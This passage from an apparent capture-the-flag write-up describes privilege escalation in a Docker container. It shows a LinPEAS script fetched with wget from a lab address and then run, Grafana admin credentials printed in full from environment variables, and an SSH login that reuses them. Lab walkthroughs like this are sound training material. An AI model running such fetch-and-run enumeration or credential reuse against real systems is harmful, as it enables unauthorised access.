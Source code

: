 From the name of the machine we can get that we are in a docker container.

## Privilege Escalation for User.flag

### Use LinPeas

{% code title="" overflow="wrap" %}
```bash
wget http://10.10.14.111/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
{% endcode %}

LinPeas juicy things discovers:

### Admin creds in VarEnv

#### GF admin user and password

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

```
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```

### User.flag

&#x20;Access through SSH with the credentials found in the environment variables.

```bash
ssh enzo@10.10.11.68
RioTecRANDEntANT!
```
